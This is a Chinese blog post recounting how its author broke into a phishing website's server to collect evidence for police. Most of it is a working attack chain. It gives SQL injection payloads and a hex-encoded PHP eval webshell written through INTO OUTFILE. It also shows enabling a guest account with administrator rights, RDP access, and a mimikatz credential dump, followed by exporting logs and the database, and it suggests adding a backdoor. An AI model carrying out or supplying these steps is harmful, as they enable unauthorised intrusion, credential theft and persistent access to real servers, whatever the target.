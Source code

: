 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: jekyll
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```

##0x00 前言
  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.
##0x01 溯源准备
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714100404.jpg)<br />
###1.1 开始
看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
<br />  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101207.jpg)<br />
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)<br />
###1.2 爆出路径,可能存在sql注入
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

###1.3 有sql注入
本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

###1.4 猜字段数目,当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

###1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

###1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>user() 用户名
>current_user当前用户名
>session_user()连接数据库的用户名
>database() 数据库名
>version() MYSQL 数据库版本
>load_file() MYSQL 读取本地文件的函数
>@@datadir 读取数据库路径
>@@basedir MYSQL 安装路径
>@@version_compile_os 操作系统 

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26
![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

###1.7 写入webshell
结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


###1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714124904.png)
连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.
>query users //查看登陆
>
>用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

###1.9 登陆远程桌面
>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

###1.10 读取明文密码
https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616
先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords
![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


##0x02 开始溯源
###2.1 拷贝系统日志Security和System
>C:\Windows\System32\winevt\Logs

###2.2 Apache日志 error.log
>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

###2.3 打包网站源码
>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

###2.4 导出mysql数据库
mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

##0x03 后话
  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.后续可以做的事,分析apache以及系统日志.做个后门记录远程桌面访问的IP,以及iframe之类的引用插入后台相关地址记录.查看web服务器日志得到对应IP.

##0x04
>参考资料
>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)

>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)

